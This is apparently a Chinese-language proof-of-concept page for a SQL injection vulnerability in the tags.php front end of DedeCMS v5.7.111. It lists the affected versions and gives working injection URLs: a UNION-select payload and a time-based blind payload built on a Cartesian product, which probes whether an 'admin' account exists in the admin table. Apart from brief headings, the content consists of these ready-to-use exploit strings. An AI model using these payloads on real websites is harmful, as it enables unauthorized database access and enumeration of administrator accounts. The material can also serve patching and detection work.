 
## Dedecms v5.7.111前台tags.php SQL注入漏洞


## 影响版本：
```
v5.7.111，或打补丁的历史版本
```

## poc
```
http://x.com/tags.php?tag=a/alias/about%27and{`\%27`%20id}%3E0.1union%20select%201,2,3,4,5,6,7,8,9,10,11--%20\\

/tags.php?tag=a/alias/about%27and{`\%27`%20id}%3E0.1+or+if(exists(select+*+from+%23@__admin+where+userid+like'admin'),(select+count(*)+from+information_schema.tables+A,information_schema.tables+B),1)--%20\\
```

![image](https://github.com/wy876/POC/assets/139549762/568076a5-4ad2-4cf6-89a4-60d02d464222)

## 笛卡尔积 盲注
```
/tags.php?tag=a/alias/about%27and{`\%27`%20id}%3E0.1+or+if(exists(select+*+from+%23@__admin+where+userid+like'admin'),(select+count(*)+from+information_schema.tables+A,information_schema.tables+B),1)--%20\\
```
当 admin表userid 存在admin时，响应时间为下图右下角的 5539 ms
![image](https://github.com/wy876/POC/assets/139549762/ac170e5f-a085-4dc6-affb-94ffb99f69d8)
